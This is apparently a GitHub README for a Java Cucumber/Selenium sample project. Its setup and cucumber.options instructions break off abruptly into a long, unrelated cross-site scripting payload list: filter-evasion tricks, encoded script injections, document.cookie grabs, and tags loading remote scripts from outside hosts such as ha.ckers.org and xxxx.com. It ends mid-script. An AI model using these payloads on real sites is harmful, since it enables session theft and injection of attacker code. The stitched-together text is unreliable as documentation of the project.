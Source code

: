# java-cucumber-example

A sample project for Cucumber and/or Selenium tests.

# Instructions

Clone the repo:

Git:
```
$ git clone git@github.com:testdouble/java-cucumber-example.git
```

Svn:
```
$ svn co https://github.com/testdouble/java-cucumber-example
```

Or download a ZIP of master [manually](https://github.com/testdouble/java-cucumber-example/archive/master.zip) and expand the contents someplace on your system

## Prerequisites

In order to run browser tests, Selenium will need to be able to drive a browser
installed to your system.

(TODO after testing on Windows)

## Verify installation

## Use Maven

Open a command window and run:

    mvn test

This runs Cucumber features using Cucumber's JUnit runner. The `@RunWith(Cucumber.class)` annotation on the `RunCukesTest`
class tells JUnit to kick off Cucumber.

## Use Ant

Open a command window and run:

    ant download
    ant runcukes

This runs Cucumber features using Cucumber's Command Line Interface (CLI) runner. Note that the `RunCukesTest` junit class is not used at all.
If you remove it (and the `cucumber-junit` jar dependency), it will run just the same.

## Overriding options

The Cucumber runtime parses command line options to know what features to run, where the glue code lives, what plugins to use etc.
When you use the JUnit runner, these options are generated from the `@CucumberOptions` annotation on your test.

Sometimes it can be useful to override these options without changing or recompiling the JUnit class. This can be done with the
`cucumber.options` system property. The general form is:

Using Maven:

    mvn -Dcucumber.options="..." test

Using Ant:

    JAVA_OPTIONS='-Dcucumber.options="..."' ant runcukes

Let's look at some things you can do with `cucumber.options`. Try this:

    -Dcucumber.options="--help"

That should list all the available options.

*IMPORTANT*

When you override options with `-Dcucumber.options`, you will completely override whatever options are hard-coded in
your `@CucumberOptions` or in the script calling `cucumber.api.cli.Main`. There is one exception to this rule, and that
is the `--plugin` option. This will not _override_, but _add_ a plugin. The reason for this is to make it easier
for 3rd party tools (such as [Cucumber Pro](https://cucumber.pro/)) to automatically configure additional plugins by appending arguments to a `cucumber.properties`
file.

### Run a subset of Features or Scenarios

Specify a particular scenario by *line* (and use the pretty plugin, which prints the scenario back)

    -Dcucumber.options="classpath:skeleton/belly.feature:4 --plugin pretty"

This works because Maven puts `./src/test/resources` on your `classpath`.
You can also specify files to run by filesystem path:

    -Dcucumber.options="src/test/resources/skeleton/belly.feature:4 --plugin pretty"

You can also specify what to run by *tag*:

    -Dcucumber.options="--tags @bar --plugin pretty"

### Running only the scenarios that failed in the previous run

    -Dcucumber.options="@target/rerun.txt"

This works as long as you have the `rerun` formatter enabled.

### Specify a different formatter:

For example a JUnit formatter:

    -Dcucumber.options="--plugin junit:target/cucumber-junit-report.xml"
    
<script>alert(1)</script>
IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=javascrscriptipt:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=" &#14;  javascript:alert('XSS');">
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<<SCRIPT>alert("XSS");//<</SCRIPT>
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
\";alert('XSS');//
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
�script�alert(�XSS�)�/script�
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
<TABLE BACKGROUND="javascript:alert('XSS')">
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<DIV STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
<XSS STYLE="xss:expression(alert('XSS'))">
exp/*<A STYLE='no\xss:noxss("*//*");xss:&#101;x&#x2F;*XSS*//*/*/pression(alert("XSS"))'>
<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
<SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT>
<HTML><BODY><?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"><?import namespace="t" implementation="#default#time2"><t:set attributeName="innerHTML" to="XSS&lt;SCRIPT DEFER&gt;alert(&quot;XSS&quot;)&lt;/SCRIPT&gt;"></BODY></HTML>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<form id="test" /><button form="test" formaction="javascript:alert(123)">TESTHTML5FORMACTION
<form><button formaction="javascript:alert(123)">crosssitespt
<frameset onload=alert(123)>
<!--<img src="--><img src=x onerror=alert(123)//">
<style><img src="</style><img src=x onerror=alert(123)//">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<embed src="javascript:alert(1)">
<? foo="><script>alert(1)</script>">
<! foo="><script>alert(1)</script>">
</ foo="><script>alert(1)</script>">
<script>({0:#0=alert/#0#/#0#(123)})</script>
<script>ReferenceError.prototype.__defineGetter__('name', function(){alert(123)}),x</script>
<script>Object.__noSuchMethod__ = Function,[{}][0].constructor._('alert(1)')()</script>
<script src="#">{alert(1)}</script>;1
<script>crypto.generateCRMFRequest('CN=0',0,0,null,'alert(1)',384,null,'rsa-dual-use')</script>
<svg xmlns="#"><script>alert(1)</script></svg>
<svg onload="javascript:alert(123)" xmlns="#"></svg>
<iframe xmlns="#" src="javascript:alert(1)"></iframe>
+ADw-script+AD4-alert(document.location)+ADw-/script+AD4-
%2BADw-script+AD4-alert(document.location)%2BADw-/script%2BAD4-
+ACIAPgA8-script+AD4-alert(document.location)+ADw-/script+AD4APAAi-
%2BACIAPgA8-script%2BAD4-alert%28document.location%29%2BADw-%2Fscript%2BAD4APAAi-
%253cscript%253ealert(document.cookie)%253c/script%253e
�><s�%2b�cript>alert(document.cookie)</script>
�><ScRiPt>alert(document.cookie)</script>
�><<script>alert(document.cookie);//<</script>
foo<script>alert(document.cookie)</script>
<scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%22/%3E%3CBODY%20onload=�document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)�%3E
�; alert(document.cookie); var foo=�
foo\�; alert(document.cookie);//�;
</script><script >alert(document.cookie)</script>
<img src=asdf onerror=alert(document.cookie)>
<BODY ONLOAD=alert(�XSS�)>
<script>alert(1)</script>
"><script>alert(String.fromCharCode(66, 108, 65, 99, 75, 73, 99, 101))</script>
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
><img id=XSS SRC=x onerror=alert(XSS);>
;!--"<XSS>=&{()}"
<IMG id=XSS SRC="javascript:alert('XSS');">
<IMG id=XSS SRC=javascript:alert('XSS')>
<IMG id=XSS SRC=JaVaScRiPt:alert('XSS')>
<IMG id=XSS SRC=javascript:alert("XSS")>
<IMG id=XSS SRC=`javascript:alert("'XSS'")`>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG id=XSS SRC="jav ascript:alert('XSS');">
<IMG id=XSS SRC="jav    ascript:alert('XSS');">
<IMG id=XSS SRC="javascript:alert('XSS');">
<IMG id=XSS SRC="jav
ascript:alert('XSS');">
perl -e 'print "<IMG id=XSS SRC=java\0script:alert(\"XSS\")>";' > out
<IMG id=XSS SRC="  javascript:alert('XSS');">
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
<<SCRIPT>alert("XSS");//<</SCRIPT>
\";alert('XSS');//
<IMG id=XSS SRC='javascript:alert('XSS')
<SCRIPT>alert(/XSS/.source)</SCRIPT>
<BODY BACKGROUND="javascript:alert('XSS')">
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
<INPUT TYPE="IMAGE" id=XSS SRC="javascript:alert('XSS');">
<BODY ONLOAD=alert('XSS')>
<IMG DYN id=XSS SRC="javascript:alert('XSS')">
<IMG LOW id=XSS SRC="javascript:alert('XSS')">
<BGSOUND id=XSS SRC="javascript:alert('XSS');">
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<IMG id=XSS SRC='vbscript:msgbox("XSS")'>
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<TABLE id=XSS BACKGROUND="javascript:alert('XSS')">
<TABLE id=XSS><TD BACKGROUND="javascript:alert('XSS')">
<DIV id=XSS STYLE="background-image: url(javascript:alert('XSS'))">
<DIV id=XSS STYLE="width: expression(alert('XSS'));">
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<IFRAME id=XSS SRC="javascript:alert('XSS');"></IFRAME>
<FRAMESET><FRAME id=XSS SRC="javascript:alert('XSS');"></FRAMESET>
<TABLE BACKGROUND="javascript:alert('XSS')">
<TABLE><TD BACKGROUND="javascript:alert('XSS')">"
<DIV id=XSS STYLE="background-image: url(javascript:alert('XSS'))">
<DIV id=XSS STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG id=XSS STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
<BASE HREF="javascript:alert('XSS');//">
<OBJECT classid=clsid:ae24fdae-03c6-11d1-8b76-0080c744f389><param name=url value=javascript:alert('XSS')></OBJECT>
a="get";b="URL(\"";c="javascript:";d="alert('XSS');\")";eval(a+b+c+d);
<XML id=XSS><X><C><![CDATA[<IMG id=XSS SRC="javas]]><![CDATA[cript:alert('XSS');">]]></C></X><xml><SPAN DATAid=XSS SRC=#I DATAFLD=CDATAFORMATAS=HTML></SPAN>
<XML ID="XSS"><I><B><IMG id=XSS SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML><SPAN DATAid=XSS SRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
<XML id=XSS SRC="xsstest.xml" ID=I></XML><SPAN DATAid=XSS SRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<HTML><BODY><?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"><?import namespace="t" implementation="#default#time2"><t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>"></BODY></HTML>
<? echo('<SCR)';echo('IPT>alert("XSS")</SCRIPT>'); ?>
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
<SCRIPT id=XSS SRC=http://127.0.0.1></SCRIPT>
//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
<IMG id=XSS SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG id=XSS SRC="&14;javascript:alert('XSS');">
<SCRIPT <B>=alert('XSS');"></SCRIPT>
<IFRAME id=XSS SRC="javascript:alert('XSS'); <
<SCRIPT>a=/XSS/nalert('XSS');</SCRIPT>
<STYLE>li {list-style-image: url("javascript:alert('XSS');</STYLE><UL><LI>XSS
<DIV STYLE="background-image: url(javascript:alert('XSS'));">
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"></HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
<a href="javascript#alert('XSS');">
<div onmouseover="alert('XSS');">,
<input type="image" dynid=XSS SRC="javascript:alert('XSS');">
&<script>alert('XSS');</script>">
<IMG id=XSS SRC=&{alert('XSS');};>
<a id=XSS href="about:<script>alert('XSS');</script>">
<DIV id=XSS STYLE="binding: url(javascript:alert('XSS'));">
<OBJECT classid=clsid:..." codebase="javascript:alert('XSS');">
<style><!--</style><script>alert('XSS');//--></script>
![CDATA[<!--]]<script>alert('XSS');//--></script>
<!-- -- --><script>alert('XSS');</script><!-- -- -->
<img id=XSS SRC="blah"onmouseover="alert('XSS');">
<img id=XSS SRC="blah>"onmouseover="alert('XSS');">
<xml id="X"><a><b><script>alert('XSS');</script>;<b></a></xml>
<div datafld="b" dataformatas="html" dataid=XSS SRC="#XSS"></div>
[\xC0][\xBC]script>alert('XSS');[\xC0][\xBC]/script>
<XML ID=I><X><C><![CDATA[<IMG id=XSS SRC="javas]]<![CDATA[cript:alert('XSS');">]]</C><X></xml>
<form id="test" /><button form="test" formaction="javascript:eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32))">X
<input id=XSS onfocus=javascript:eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32)) autofocus>
<select id=XSS onfocus=javascript:eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32)) autofocus>
<textarea id=XSS onfocus=javascript:eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32)) autofocus>
<keygen id=XSS onfocus=javascript:eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32)) autofocus>
<input id=XSS onblur=javascript:eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32)) autofocus><input autofocus>
<video id=XSS poster=javascript:eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32))//
<body id=XSS onscroll=eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32))><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
<video><source onerror="javascript:eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32))">
<video onerror="javascript:eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32))"><source>
<iframe id=XSS / /onload=alert(/XSS/)></iframe>
<iframe id=XSS / "onload=alert(/XSS/)></iframe>
<iframe id=XSS///////onload=alert(/XSS/)></iframe>
<iframe id=XSS "onload=alert(/XSS/)></iframe>
<iframe id=XSS <?php echo chr(11)?> onload=alert(/XSS/)></iframe>
<iframe id=XSS <?php echo chr(12)?> onload=alert(/XSS/)></iframe>
" onfocus=alert(XSS) "> <"
" onblur=alert(XSS) "> <"
" onmouseover=alert(XSS) ">
" onclick=alert(XSS) ">
<FRAMESET><FRAME id=XSS SRC=\"javascript:alert('XSS');\"></FRAMESET>
<STYLE>li {list-style-image: url(\"javascript:alert('XSS')\");}</STYLE><UL><LI>XSS
</textarea>'"><script>alert(XSS)</script>
'""><script language="JavaScript"> alert('X \nS \nS');</script>
</script></script><<<<script><>>>><<<script>alert(XSS)</script>
<html><noalert><noscript>(XSS)</noscript><script>(XSS)</script>
<INPUT TYPE="IMAGE" id=XSS SRC="javascript:alert('XSS');">
'></select><script>alert(XSS)</script>
}</style><script>a=eval;b=alert;a(b(/XSS/.source));</script>
<SCRIPT>document.write("XSS");</SCRIPT>
a="get";b="URL";c="javascript:";d="alert('xss');";eval(a+b+c+d);
='><script>alert("xss")</script>
<body background=javascript:'"><script>alert(XSS)</script>></body>
data:text/html;charset=utf-7;base64,Ij48L3RpdGxlPjxzY3JpcHQ+YWxlcnQoMTMzNyk8L3NjcmlwdD4=
<SCRIPT>alert('XSS');</SCRIPT>
'';!--"<XSS>=&{()}
<SCRIPT id=XSS SRC=http://xxxx.com/xss.js></SCRIPT>
<IMG id=XSS SRC="javascript:alert('XSS');">
<IMG id=XSS SRC=javascript:alert('XSS')>
<IMG id=XSS SRC=JaVaScRiPt:alert('XSS')>
<IMG id=XSS SRC=javascript:alert("XSS")>
<IMG id=XSS SRC=`javascript:alert("RSnake says, 'XSS'")`>
<IMG id=XSS SRC=javascript:alert(String.fromCharCode(88,83,83))>
id=XSS SRC=<IMG 6;avascript:alert('XSS')>
<IMG id=XSS SRC=javascript:alert('XSS')>
<IMG id=XSS SRC=javascript:alert('XSS')>
<IMG id=XSS SRC="jav ascript:alert('XSS');">
<IMG id=XSS SRC="jav    ascript:alert('XSS');">
<IMG id=XSS SRC="javascript:alert('XSS');">
<IMG id=XSS SRC="jav
ascript:alert('XSS');">
<IMG id=XSS SRC="  javascript:alert('XSS');">
<SCRIPT/XSS id=XSS SRC="http://xxxx.com/xss.js"></SCRIPT>
<SCRIPT id=XSS SRC=http://xxxx.com/xss.js?<B>
<IMG id=XSS SRC="javascript:alert('XSS')"
<SCRIPT>a=/XSS/
\";alert('XSS');//
<INPUT TYPE="IMAGE" id=XSS SRC="javascript:alert('XSS');">
<BODY BACKGROUND="javascript:alert('XSS')">
<BODY ONLOAD=alert('XSS')>
<IMG DYNid=XSS SRC="javascript:alert('XSS')">
<IMG LOWid=XSS SRC="javascript:alert('XSS')">
<BGSOUND id=XSS SRC="javascript:alert('XSS');">
<BR SIZE="&{alert('XSS')}">
<LAYER id=XSS SRC="http://xxxx.com/scriptlet.html"></LAYER>
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<LINK REL="stylesheet" HREF="http://xxxx.com/xss.css">
<STYLE>@import'http://xxxx.com/xss.css';</STYLE>
<META HTTP-EQUIV="Link" Content="<http://xxxx.com/xss.css>; REL=stylesheet">
<STYLE>BODY{-moz-binding:url("http://xxxx.com/xssmoz.xml#xss")}</STYLE>
<IMG id=XSS SRC='vbscript:msgbox("XSS")'>
<IMG id=XSS SRC="mocha:[code]">
<IMG id=XSS SRC="livescript:[code]">
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<META HTTP-EQUIV="Link" Content="<javascript:alert('XSS')>; REL=stylesheet">
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
<IFRAME id=XSS SRC="javascript:alert('XSS');"></IFRAME>
<FRAMESET><FRAME id=XSS SRC="javascript:alert('XSS');"></FRAMESET>
<TABLE BACKGROUND="javascript:alert('XSS')">
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
<XSS STYLE="xss:expression(alert('XSS'))">
exp/*<XSS STYLE='no\xss:noxss("*//*");
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
<BASE HREF="javascript:alert('XSS');//">
<OBJECT TYPE="text/x-scriptlet" DATA="http://xxxx.com/scriptlet.html"></OBJECT>
<OBJECT classid=clsid:ae24fdae-03c6-11d1-8b76-0080c744f389><param name=url value=javascript:alert('XSS')></OBJECT>
getURL("javascript:alert('XSS')")
a="get";
<!--<value><![CDATA[<XML ID=I><X><C><![CDATA[<IMG id=XSS SRC="javas<![CDATA[cript:alert('XSS');">
<XML id=XSS SRC="http://xxxx.com/xsstest.xml" ID=I></XML>
<HTML><BODY>
<SCRIPT id=XSS SRC="http://xxxx.com/xss.jpg"></SCRIPT>
<!--#exec cmd="/bin/echo '<SCRIPT SRC'"--><!--#exec cmd="/bin/echo '=http://xxxx.com/xss.js>'"-->
<? echo('<SCR)';
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
<SCRIPT a=">" id=XSS SRC="http://xxxx.com/xss.js"></SCRIPT>
<SCRIPT a=">" '' id=XSS SRC="http://xxxx.com/xss.js"></SCRIPT>
<SCRIPT "a='>'" id=XSS SRC="http://xxxx.com/xss.js"></SCRIPT>
<SCRIPT a=`>` id=XSS SRC="http://xxxx.com/xss.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT id=XSS SRC="http://xxxx.com/xss.js"></SCRIPT>
<sCrIpt>alert(1)</ScRipt>
<iMg srC=1 lAnGuAGE=VbS oNeRroR=mSgbOx(1)>
Null-byte character between HTML attribute name and equal sign (IE, Safari).
<img src='1' onerror\x00=alert(0) />
Slash character between HTML attribute name and equal sign (IE, Firefox, Chrome, Safari).
<img src='1' onerror/=alert(0) />
Vertical tab between HTML attribute name and equal sign (IE, Safari).
<img src='1' onerror\x0b=alert(0) />
Null-byte character between equal sign and JavaScript code (IE).
<img src='1' onerror=\x00alert(0) />
Null-byte character between characters of HTML attribute names (IE).
<img src='1' o\x00nerr\x00or=alert(0) />
Null-byte character before characters of HTML element names (IE).
<\x00img src='1' onerror=alert(0) />
Null-byte character after characters of HTML element names (IE, Safari).
<script\x00>alert(1)</script>
Null-byte character between characters of HTML element names (IE).
<i\x00mg src='1' onerror=alert(0) />
Use slashes instead of whitespace (IE, Firefox, Chrome, Safari).
<img/src='1'/onerror=alert(0)>
Use vertical tabs instead of whitespace (IE, Safari).
<img\x0bsrc='1'\x0bonerror=alert(0)>
Use quotes instead of whitespace in some situations (Safari).
<img src='1''onerror='alert(0)'>
<img src='1'"onerror="alert(0)">
Use null-bytes instead of whitespaces in some situations (IE).
<img src='1'\x00onerror=alert(0)>
Just don't use spaces (IE, Firefox, Chrome, Safari).
<img src='1'onerror=alert(0)>
Prefix URI schemes.
Firefox (\x09, \x0a, \x0d, \x20)
Chrome (Any character \x01 to \x20)
<iframe src="\x01javascript:alert(0)"></iframe> <!-- Example for Chrome -->
No greater-than characters needed (IE, Firefox, Chrome, Safari).
<img src='1' onerror='alert(0)' <
Extra less-than characters (IE, Firefox, Chrome, Safari).
<<script>alert(0)</script>
Backslash character between expression and opening parenthesis (IE).
<style>body{background-color:expression\(alert(1))}</style>
JavaScript Escaping
<script>document.write('<a hr\ef=j\avas\cript\:a\lert(2)>blah</a>');</script>
Encoding Galore.
HTML Attribute Encoding
<img src="1" onerror="alert(1)" />
<img src="1" onerror="alert(1)" />
<iframe src="javascript:alert(1)"></iframe>
<iframe src="javascript:alert(1)"></iframe>
URL Encoding
<iframe src="javascript:alert(1)"></iframe>
<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>
CSS Hexadecimal Encoding (IE specific examples)
<div style="x:expression(alert(1))">Joker</div>
<div style="x:\65\78\70\72\65\73\73\69\6f\6e(alert(1))">Joker</div>
<div style="x:\000065\000078\000070\000072\000065\000073\000073\000069\00006f\00006e(alert(1))">Joker</div>
<div style="x:\65\78\70\72\65\73\73\69\6f\6e\028 alert \028 1 \029 \029">Joker</div>
JavaScript (hexadecimal, octal, and unicode)
<script>document.write('<img src=1 onerror=alert(1)>');</script>
<script>document.write('\x3C\x69\x6D\x67\x20\x73\x72\x63\x3D\x31\x20\x6F\x6E\x65\x72\x72\x6F\x72\x3D\x61\x6C\x65\x72\x74\x28\x31\x29\x3E');</script>
<script>document.write('\074\151\155\147\040\163\162\143\075\061\040\157\156\145\162\162\157\162\075\141\154\145\162\164\050\061\051\076');</script>
<script>document.write('\u003C\u0069\u006D\u0067\u0020\u0073\u0072\u0063\u003D\u0031\u0020\u006F\u006E\u0065\u0072\u0072\u006F\u0072\u003D\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029\u003E');</script>
JavaScript (Decimal char codes)
<script>document.write('<img src=1 onerror=alert(1)>');</script>
<script>document.write(String.fromCharCode(60,105,109,103,32,115,114,99,61,49,32,111,110,101,114,114,111,114,61,97,108,101,114,116,40,48,41,62));</script>
JavaScript (Unicode function and variable names)
<script>alert(123)</script>
<script>\u0061\u006C\u0065\u0072\u0074(123)</script>
Overlong UTF-8 (SiteMinder is awesome!)
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
<img src="1" onnerror="alert(1)">
%E0%80%BCimg%20src%3D%E0%80%A21%E0%80%A2%20onerror%3D%E0%80%A2alert(1)%E0%80%A2%E0%80%BE
UTF-7 (Missing charset?)
<img src="1" onerror="alert(1)" />
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-
Unicode .NET Ugliness
<script>alert(1)</script>
%uff1cscript%uff1ealert(1)%uff1c/script%uff1e
Classic ASP performs some unicode homoglyphic translations... don't ask why...
<img src="1" onerror="alert('1')">
%u3008img%20src%3D%221%22%20onerror%3D%22alert(%uFF071%uFF07)%22%u232A
Useless and/or Useful features.
HTML 5 (Not comphrensive)
<video src="http://www.w3schools.com/html5/movie.ogg" onloadedmetadata="alert(1)" />
<video src="http://www.w3schools.com/html5/movie.ogg" onloadstart="alert(1)" />
Usuage of non-existent elements (IE)
<blah style="blah:expression(alert(1))" />
CSS Comments (IE)
<div style="z:exp/*anything*/res/*here*/sion(alert(1))" />
Alternate ways of executing JavaScript functions
<script>window['alert'](0)</script>
<script>parent['alert'](1)</script>
<script>self['alert'](2)</script>
<script>top['alert'](3)</script>
Split up JavaScript into HTML attributes
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
HTML is parsed before JavaScript
<script>
var junk = '</script><script>alert(1)</script>';
</script>
HTML is parsed before CSS
<style>
body { background-image:url('http://www.blah.com/'); }
</style>
XSS in XML documents [doctype = text/xml] (Firefox, Chrome, Safari).
<?xml version="1.0" ?>
<someElement>
<a xmlns:a='http://www.w3.org/1999/xhtml'><a:body onload='alert(1)'/></a>
</someElement>
URI Schemes
<iframe src="javascript:alert(1)"></iframe>
<iframe src="vbscript:msgbox(1)"></iframe> (IE)
<iframe src="data:text/html,<script>alert(0)</script>"></iframe> (Firefox, Chrome, Safari)
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe> (Firefox, Chrome, Safari)
HTTP Parameter Pollution
http://target.com/something.xxx?a=val1&a=val2
ASP.NET     a = val1,val2
ASP         a = val1,val2
JSP         a = val1
PHP         a = val2
Two Stage XSS via fragment identifier (bypass length restrictions / avoid server logging)
<script>eval(location.hash.slice(1))</script>
<script>eval(location.hash)</script> (Firefox)
http://target.com/something.jsp?inject=<script>eval(location.hash.slice(1))</script>#alert(1)
Two Stage XSS via name attribute
<iframe src="http://target.com/something.jsp?inject=" name="alert(1)"></iframe>
Non-alphanumeric crazyness...
<script>
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();
</script>
<script>
